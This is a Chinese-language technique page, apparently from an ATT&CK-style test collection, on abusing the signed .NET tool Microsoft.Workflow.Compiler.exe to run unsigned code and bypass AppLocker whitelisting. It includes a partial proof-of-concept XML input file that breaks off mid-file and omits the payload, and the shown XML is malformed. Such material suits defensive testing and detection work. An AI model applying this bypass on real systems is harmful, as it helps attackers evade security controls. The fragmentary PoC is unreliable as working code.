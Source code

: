 # T1218.001-使用Microsoft.Workflow.Compiler.exe执行Payload（白名单绕过）

## 描述

`Microsoft.Workflow.Compiler.exe`是.NET Framework自带的命令行工具，用于编译和执行XOML（Extensible Object Markup Language）工作流文件。它位于Windows系统中的.NET Framework目录：

- 32位：`C:\Windows\Microsoft.NET\Framework\v<版本>\Microsoft.Workflow.Compiler.exe`
- 64位：`C:\Windows\Microsoft.NET\Framework64\v<版本>\Microsoft.Workflow.Compiler.exe`

该工具由Microsoft签名，视为受信任的开发工具。攻击者可通过提供包含恶意代码的XOML文件或C#代码，利用`Microsoft.Workflow.Compiler.exe`代理执行任意未签名代码，从而绕过AppLocker或其他白名单防御机制。

`Microsoft.Workflow.Compiler.exe`需要两个命令行参数：
1. XML文件路径：包含序列化的`CompilerInput`对象，指定编译参数。
2. 输出文件路径：通常为C#或XOML文件，包含待执行的代码。

此技术常用于初始访问后的持久化、权限提升或横向移动，因其利用合法签名工具，难以被传统防病毒软件检测。

## 测试案例

### 案例说明
`Microsoft.Workflow.Compiler.exe`未包含在系统`PATH`环境变量中，需使用完整路径调用。攻击者可通过精心构造的XML和C#文件执行恶意代码。以下是一个简单的测试案例：

### 方法1

**XML文件（poc.xml）**：
```xml
<?xml version="1.0" encoding="utf‐8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema‐instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler"
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>add.tcp</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">‐1</warningLevel>
```